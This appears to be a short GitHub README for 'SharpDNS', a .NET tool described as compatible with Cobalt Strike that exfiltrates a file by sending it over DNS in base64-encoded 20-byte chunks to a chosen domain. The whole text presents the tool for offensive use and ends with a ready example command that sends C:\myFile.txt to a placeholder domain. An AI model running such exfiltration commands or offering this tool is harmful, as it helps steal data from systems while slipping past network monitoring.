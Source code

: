 # SharpDNS

This is a data exfiltration tool that sends a given file over dns to a specified domain in base64'd 20 byte chunks.

.Net assembly compatible with cobaltstrike



Example:



SharpDNS.exe file:C:\\myFile.txt domain:yourdomain.com